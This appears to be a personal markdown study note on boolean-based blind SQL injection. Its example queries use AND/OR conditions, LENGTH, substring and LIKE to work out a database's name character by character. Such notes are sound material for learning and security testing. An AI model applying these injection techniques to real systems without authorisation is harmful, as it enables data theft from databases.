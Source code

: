 ```yaml
---
tags:
  - security
  - sqli
  - web
title: BOOLEAN based (Blind) Injection
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

### Finding Database Name
``
#### Find Length of Name

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

#### Brute Force the Characters

```sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
```

#### Try to Find Matching Pattern

```sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
```
